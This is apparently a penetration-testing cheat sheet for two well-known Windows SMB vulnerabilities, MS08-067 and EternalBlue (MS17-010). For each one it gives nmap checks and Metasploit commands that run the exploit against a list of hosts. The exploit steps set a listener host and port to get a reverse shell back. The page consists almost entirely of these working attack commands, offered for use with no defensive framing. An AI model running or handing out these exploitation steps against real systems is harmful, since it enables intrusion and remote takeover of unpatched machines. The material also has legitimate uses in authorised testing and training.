 # Low-Hanging Fruits




## net_api

**CVE-2008-4250, MS08-067**

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms08-067 10.10.13.37 -p139,445
Or
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > check
```

Exploit:

```
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```




## EternalBlue

**CVE-2017-0144, MS17-010**



### MSF

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms17-010 10.10.13.37 -p139,445
Or
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS file:smb.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```
